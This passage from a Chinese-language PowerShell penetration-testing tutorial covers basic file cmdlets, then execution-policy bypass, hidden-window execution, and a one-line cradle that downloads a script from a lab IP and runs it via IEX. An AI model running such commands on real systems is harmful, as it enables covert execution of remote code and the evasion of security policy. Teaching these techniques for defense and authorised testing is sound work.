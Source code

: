 在 PowerShell 下，命令的命名规范很一致，都采用了动词-名词的形式，如 Net-Item，动词一般为 Add、New、Get、Remove、Set 等。PowerShell 还兼容 cmd 和 Linux 命令，如查看目录可以使用 dir 或者 ls 。

### 文件操作类命令

```
新建目录test：New-Item test -ItemType directory
删除目录test：Remove-Item test
新建文件test.txt：New-Item test.txt -ItemType file
新建文件test.txt，内容为 hello：New-Item test.txt -ItemType file -value "hello"
删除文件test.txt：Remove-Item test.txt
查看文件test.txt内容：Get-Content  test.txt
设置文件test.txt内容t：Set-Content  test.txt  -Value "hello"
给文件test.txt追加内容：Add-Content test.txt  -Value ",word!"
清除文件test.txt内容：Clear-Content test.txt
```

### 绕过本地权限并执行

上面说到了默认情况下 PowerShell 的执行策略是受限模式`Restricted`，这就导致了在渗透测试过程中我们需要采用一些方法绕过这个策略，从而执行我们的脚本文件。

先来看看默认受限模式下执行脚本的情况

```
PS C:\Users\teamssix> powerShell.exe Get-ExecutionPolicy
Restricted

PS C:\Users\teamssix> PowerShell.exe -File t.ps1
无法加载文件 C:\Users\teamssix\t.ps1，因为在此系统上禁止运行脚本。有关详细信息，请参阅 https:/go.microsoft.com/fwlink/?
LinkID=135170 中的 about_Execution_Policies。
    + CategoryInfo          : SecurityError: (:) []，ParentContainsErrorRecordException
    + FullyQualifiedErrorId : UnauthorizedAccess
```

这里系统会提示在此系统上禁止运行脚本，但加上 `-ExecutionPolicy Bypass`即可绕过这个限制

```
PS C:\Users\teamssix> cat .\t.ps1echo "Hello TeamsSix"PS C:\Users\teamssix> PowerShell.exe -ExecutionPolicy Bypass -File t.ps1hello TeamsSix
```

### 绕过本地权限并隐藏执行

加入`-WindowStyle Hidden -NoLogo -NonInteractive -NoProfile` 即可隐藏执行。

```
PowerShell.exe -ExecutionPolicy Bypass -WindowStyle Hidden -NoLogo -NonInteractive -NoProfile -File t.ps1
```

### 下载远程脚本绕过权限并隐藏执行

```
PowerShell.exe -ExecutionPolicy Bypass -WindowStyle Hidden -NoLogo -NonInteractive -NoProfile "IEX(New-Object Net.WebClient).DownloadString('http://172.16.214.1:8000/t.ps1')"
```
